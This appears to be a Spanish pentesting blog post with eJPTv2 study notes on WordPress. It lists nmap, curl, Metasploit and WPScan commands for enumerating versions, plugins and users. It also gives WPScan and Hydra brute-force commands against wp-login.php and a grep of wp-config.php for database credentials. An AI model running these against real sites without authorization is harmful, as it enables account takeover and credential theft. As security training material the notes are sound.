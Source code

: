 ```yaml
---
layout: single
title: WordPress Pentesting
excerpt: "Hacking"
date: 2021-05-22
classes: wide
header:
  teaser: /assets/images/Wordpress/1.png
  teaser_home_page: true
  icon: /assets/images/Wordpress/1.png
categories:
  - Wordpress
  - eJPTv2
---
```


# Auditoria CMS WordPress

-----

##  **🕵️ Identificación de la versión de WordPress y sus componentes**

### **Reconocimiento de servicios en WordPress**

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```
También podemos intentar enumerar plugins con la herramienta _curl_:

```ruby
curl -s -X GET "<ip_victima>" | grep -oP 'plugins/\K.*' | sort -u 
```

> Es importante verificar siempre ciertos directorios durante cualquier escaneo de WordPress.

### **✔️ Checklist de WordPress**

🎯 Para comprobar si existe un panel de inicio de sesión:

- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

🎯 Otros directorios clave a revisar en cualquier sitio web:

- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt

----

Si al acceder al servicio web notamos que no visualmente no carga correctamente, es posible que se esté utilizando *Virtual Hosting*. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo **/etc/hosts**. Para ello, agregamos la *IP de la web junto con el dominio correspondiente*, por ejemplo: `<ip_objetivo> blog.thm`.

---

###  **🛠️ Escaneo básico de WordPress con Metasploit**

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```
### **🕵️ Enumeración de usuarios en WordPress**

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

### **🔑 Ataque de fuerza bruta con Metasploit**

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

  ### **🛠️ Otras herramientas para auditar WordPress**

### **🔹 WPScan**

**WPScan** es una herramienta especializada en la enumeración y auditoría de sitios basados en **WordPress**. Permite detectar vulnerabilidades, usuarios, plugins temas instalados y realizar ataques de fuerza bruta.

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```
> Para realizar un escaneo mas detallado deberemos añadir nuestro **token** de wpscan.

> 💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como `/uploads`, analizar si hay _directory listing_, identificar temas, plugins y posibles filtraciones de información (_information leakage_), vhosts, entre otros.

> 💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

----

### **🔑 Fuerza bruta en el panel de inicio de sesión de WordPress**

**Ataque de fuerza bruta con WPScan**

```bash
wpscan --url <url/wp-login.php> -U <username> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url <url/wp-login.php> --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

### **Ataque de fuerza bruta con Hydra**

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

### Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

> 🏁 Con estos métodos, podemos identificar la versión de WordPress utilizada, detectar plugins y temas instalados, analizar directorios sensibles, localizar paneles de acceso y ejecutar ataques de fuerza bruta para intentar obtener acceso al sistema.

> 💡credenciales de la base de datos MySQL dentro de los archivos de configuración de WordPress:

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

<iframe width="560" height="315" src="https://www.youtube.com/watch?v=cI27_M5_a4E&ab_channel=HenkoSec" 
title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; 
encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
